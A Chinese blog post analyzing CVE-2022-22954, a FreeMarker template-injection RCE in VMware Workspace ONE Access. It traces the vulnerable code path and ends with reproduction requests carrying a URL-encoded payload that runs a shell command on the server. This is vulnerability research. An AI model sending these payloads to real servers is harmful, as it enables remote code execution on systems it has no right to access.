# VMware Workspace ONE Access(CVE-2022-22954)漏洞分析 - nice_0e3 - 博客园

> 原文：[`www.cnblogs.com/nice0e3/p/16731478.html`](https://www.cnblogs.com/nice0e3/p/16731478.html)

# VMware Workspace ONE Access(CVE-2022-22954)漏洞分析

## 碎碎念

“像让这个世界听听自己的意见”

## 环境搭建

导入 ova 的时候要设置下`fqdn`，配置数据库就安装完成了



启动脚本在`/opt/vmware/horizon/workspace/bin`目录下



`setenv.sh`中配置远程调试：



```
/usr/java/jre-vmware/bin/java -Djava.util.logging.config.file=/opt/vmware/horizon/workspace/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -server -Djdk.tls.ephemeralDHKeySize=2048 -XX:+AggressiveOpts -Dliquibase.should.run=true -Djavax.net.ssl.trustStore=/usr/local/horizon/conf/idm-cacerts -Dset.rmi.server.hostname=true -Dvertx.disableFileCPResolving=true -XX:MaxMetaspaceSize=768m -XX:MetaspaceSize=768m -Xss1m -Xmx3968m -Xms3968m -XX:+UseParallelGC -XX:+UseParallelOldGC -XX:NewRatio=3 -XX:SurvivorRatio=12 -Dorg.apache.xml.security.ignoreLineBreaks=true -XX:+DisableExplicitGC -XX:+UseBiasedLocking -XX:-LoopUnswitching -Djava.security.properties=/opt/vmware/horizon/workspace/conf/idm_fips.security -Djdk.tls.namedGroups=secp521r1,secp384r1,secp256r1 -Didm.fips.mode.required=true -Dorg.bouncycastle.fips.approved_only=true -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=5005 -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -Dignore.endorsed.dirs= -classpath /usr/local/horizon/jre-endorsed/bc-fips-1.0.2.1.jar:/usr/share/tomcat/bin/bootstrap.jar:/usr/share/tomcat/bin/tomcat-juli.jar -Dcatalina.base=/opt/vmware/horizon/workspace -Dcatalina.home=/usr/share/tomcat -Djava.io.tmpdir=/opt/vmware/horizon/workspace/temp org.apache.catalina.startup.Bootstrap start 
```

```
iptables -I INPUT -p tcp --dport 5005 -j ACCEPT 
```

开放防火墙策略

## 模板注入漏洞分析

### 漏洞分析

定位到漏洞点中


`/Users/nice0e3/Desktop/漏洞调试/webapps/catalog-portal/WEB-INF/lib/endusercatalog-ui-1.0-SNAPSHOT-classes.jar!/templates/customError.ftl`中使用 freemarker 的 eval 语法渲染`errorObj`

[`freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_eval`](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_eval)

在`com.vmware.endusercatalog.ui.web.UiErrorController#handleGenericError`，会使用`customError.ftl`的模板进行渲染



寻找调用`com.vmware.endusercatalog.ui.web.UiErrorController#handleGenericError`的地方，发现在`com.vmware.endusercatalog.ui.web.UiErrorController#sendError`调用



但这里的`errorMessage`是从`request.getAttribute("javax.servlet.error.message");`获取过来的，会导致这里的 errorMessage 的内容并不可控。

下面来寻找`javax.servlet.error.message`可控位置

发现`com.vmware.endusercatalog.ui.web.UiApplicationExceptionResolver#resolveException`符合条件



这里`javax.servlet.error.message`可控，并且回调用返回`/ui/view/error`路由，完成后面的串联。


`handleHttpMediaTypeNotAcceptableException`和`handleAnyGenericException`对应的都是全局异常的处理过程



但该全局异常处理只作用于`UIController.class, HubUIController.class, WorkspaceOauth2CodeVerificationController.class`中，在这三个类中，异常处理会走入到`com.vmware.endusercatalog.ui.web.UiApplicationExceptionResolver#handleAnyGenericException`方法中


这里传递异常对象，去获取异常信息，然后调用 createErrorJson 去转化成 json 格式。

下面需要继续去寻找 msgArgs 中可控位置，也就是异常信息。

在`com.vmware.endusercatalog.ui.UiApplication`类中自动装载

```
@Configuration
@EnableAutoConfiguration(
    exclude = {HazelcastAutoConfiguration.class, HibernateJpaAutoConfiguration.class, RedisAutoConfiguration.class, RedisRepositoriesAutoConfiguration.class, DataSourceAutoConfiguration.class}
)
@ComponentScan(
    basePackages = {"com.vmware.endusercatalog.localization", "com.vmware.endusercatalog.auth", "com.vmware.endusercatalog.cache.engine.config", "com.vmware.endusercatalog.cache.client.config", "com.vmware.endusercatalog.cache.client.stats", "com.vmware.endusercatalog.cache.seed", "com.vmware.endusercatalog.persistence.engine.seed", "com.vmware.endusercatalog.adapters", "com.vmware.endusercatalog.mdm", "com.vmware.endusercatalog.workspace", "com.vmware.endusercatalog.okta", "com.vmware.endusercatalog.db", "com.vmware.endusercatalog.repositories", "com.vmware.endusercatalog.toggles", "com.vmware.endusercatalog.ui", "com.vmware.endusercatalog.adapters", "com.vmware.endusercatalog.console.web", "com.vmware.endusercatalog.hub.ui.web", "com.vmware.endusercatalog.security", "com.vmware.endusercatalog.cache.client", "com.vmware.endusercatalog.api.web.common", "com.vmware.endusercatalog.utils", "com.vmware.endusercatalog.multihub.service"}
)
@EnableAspectJAutoProxy
public class UiApplication {
    public UiApplication() {
    }

    public static void main(String[] args) {
        String[] newArray = ClArgumentsParser.addDisableCheckForFreeMarkerTemplateLocation(args);
        ClArgumentsParser.addCliConfigToParentClasspath("eucConfig", newArray);
        (new SpringApplicationBuilder(new Class[]{UiApplication.class})).run(newArray);
    }
} 
```

再来看到`com.vmware.endusercatalog.ui.config.WebConfig`,配置`/ui, /hub-ui, /hub-ui/byob, /logout, /ui/oauth/verify`走该拦截器


`com.vmware.endusercatalog.auth.interceptor.AuthContextPopulationInterceptor`






前面获取`deviceUdid`和`deviceType`，`authContextBuilder.build();`

```
 public AuthContext build() {
            return new AuthContext(this);
        } 
```

```
 AuthContext(Builder builder) {
        if (!StringUtils.hasText(builder.tenantCode)) {
            throw new InvalidAuthContextException(new Object[0]);
        } else {
            this.deviceId = StringUtils.hasText(builder.deviceId) ? builder.deviceId : null;
            this.deviceType = StringUtils.hasText(builder.deviceType) ? builder.deviceType : null;
            this.tenantCode = StringUtils.lowerCase(builder.tenantCode);
            this.authorizationToken = StringUtils.hasText(builder.authorizationToken) ? builder.authorizationToken : null;
            this.baseUrl = (String)StringUtils.defaultIfBlank(builder.baseUrl, (CharSequence)null);
            this.authorizationTokenRevoked = builder.authorizationTokenRevoked;
            this.userAgent = builder.userAgent;
            this.locale = builder.locale;
            this.authAdapter = builder.authAdapter;
            this.multiHubSupportedDevice = builder.multiHubSupportedDevice;
            if (!this.isValidRequest()) {
                throw new InvalidAuthContextException(new Object[]{this.tenantCode, this.deviceId, this.deviceType, this.authorizationTokenRevoked});
            }
        }
    } 
```

下面有个`this.isValidRequest()`判断

```
public boolean isNativeAppRequestWithAuthToken() {
        return this.isRequestWithDeviceParams() && this.hasAuthorizationToken();
    } 
```

```
 private boolean isRequestWithDeviceParams() {
        return this.deviceId != null && this.deviceType != null;
    } 
```

判断`deviceId`和`deviceType`参数不为空，

```
 throw new InvalidAuthContextException(new Object[]{this.tenantCode, this.deviceId, this.deviceType, this.authorizationTokenRevoked}); 
```

最后面返回一个异常

下面来看看 spring mvc 的处理



在 springmvc 中 handle 处理完成后走到这个位置，将异常信息处理给`this.processDispatchResult`的下一次调用



`org.springframework.web.servlet.DispatcherServlet#processHandlerException`方法中会处理 handle 异常的一些处理



```
protected ModelAndView processHandlerException(HttpServletRequest request, HttpServletResponse response, @Nullable Object handler, Exception ex) throws Exception {
    request.removeAttribute(HandlerMapping.PRODUCIBLE_MEDIA_TYPES_ATTRIBUTE);
    ModelAndView exMv = null;
    if (this.handlerExceptionResolvers != null) {
        Iterator var6 = this.handlerExceptionResolvers.iterator();

        while(var6.hasNext()) {
            HandlerExceptionResolver resolver = (HandlerExceptionResolver)var6.next();
            exMv = resolver.resolveException(request, response, handler, ex);
            if (exMv != null) {
                break;
            }
        }
    } 
```

代码中遍历 spring 中配置的一些异常转换器进行调用`resolveException`方法

然后后面 spring 的一些反射调用来来到`com.vmware.endusercatalog.ui.web.UiApplicationExceptionResolver#handleAnyGenericException`中



### 漏洞复现

根据上文梳理一下，请求路由需要为`UIController.class, HubUIController.class, WorkspaceOauth2CodeVerificationController.class`其中一个类，传递`error`和`deviceUdid`参数，使其能走到异常中，这几个类的异常会走到`com.vmware.endusercatalog.ui.web.UiApplicationExceptionResolver#handleAnyGenericException`中类处理异常，并将异常信息`request.setAttribute("javax.servlet.error.message", errorJson);`，设置完成后返回`/ui/view/error`,来到`/ui/view/error`路由这边，调用`request.getAttribute("javax.servlet.error.message");`, `/ui/view/error`的路由方法调用`getErrorPage`-> `this.handleGenericError`,将前面获取到的异常信息调用`model.put("errorObj", errorMessage);`，最后面返回`customError`,进行 freemark 模块渲染，`customError.ftl`,模块中的`errorObj?eval`会将`errorObj`内容执行。

```
GET /catalog-portal/ui/oauth/verify?error=1111&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%69%64%22%29%7d HTTP/1.1
Host: test.test.local
Connection: close
sec-ch-ua: "Google Chrome";v="105", "Not)A;Brand";v="8", "Chromium";v="105"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://test.test.local/SAAS/admin/roles
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9 
```

```
/catalog-portal/ui?code=1&state=1&error=1111&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%69%64%22%29%7d

/catalog-portal/hub-ui?code=1&state=1&error=1111&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%69%64%22%29%7d

/catalog-portal/ui/oauth/verify?error=1111&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%69%64%22%29%7d

/catalog-portal/hub-ui/byob?code=1&state=1&error=1111&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%69%64%22%29%7d 
```



```
/opt/vmware/horizon/workspace/webapps/catalog-portal/ 
```

### 参考

[CVE-2022-22954 VMware Workspace ONE Access Server-side Template Injection RCE](https://y4er.com/posts/cve-2022-22954-vmware-workspace-one-access-server-side-template-injection-rce/#%E5%AE%89%E8%A3%85%E7%8E%AF%E5%A2%83)

## 结尾

挺有意思的一个漏洞，受益颇多